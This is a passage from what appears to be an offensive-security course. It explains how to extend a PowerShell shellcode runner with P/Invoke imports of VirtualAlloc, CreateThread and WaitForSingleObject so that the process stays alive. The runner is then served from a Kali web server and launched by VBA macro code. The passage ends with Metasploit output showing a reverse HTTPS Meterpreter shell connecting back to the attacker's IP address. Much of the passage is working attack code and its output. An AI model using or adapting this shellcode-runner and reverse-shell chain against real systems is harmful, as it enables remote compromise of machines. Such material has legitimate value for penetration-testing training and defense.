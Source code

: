 We'll update our shellcode runner PowerShell script to import _WaitForSingleObject_ using P/Invoke and _Add-Type_ and invoke it as shown in the highlighted sections of Listing 61:

```
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
...

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

> Listing 61 - Importing WaitSingleObject and calling it to stop PowerShell from terminating

Let's discuss this addition. When _CreateThread_ is called, it returns a handle to the newly created thread. We provided this handle to _WaitForSingleObject_ along with the time to wait for that thread to finish. In this case, we have specified 0xFFFFFFFF, which will instruct the program to wait forever or until we exit our shell. Notice that we have explicitly performed a type cast on this value to an unsigned integer with the _\[uint32]_ static .NET type because PowerShell only uses signed integers.

We again used _Here-Strings_ to assign a block of text to the _$Kernel32_ variable. Inside our class, we imported three Windows APIs. We then used _Add-Type_ to compile the public _Kernel32_ class that we invoked when using the APIs. This addition should halt the premature termination of PowerShell.

We can now update the PowerShell shellcode runner hosted on our Kali Linux web server and rerun the VBA code. This should result in a reverse Meterpreter shell. Very Nice.

```
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```
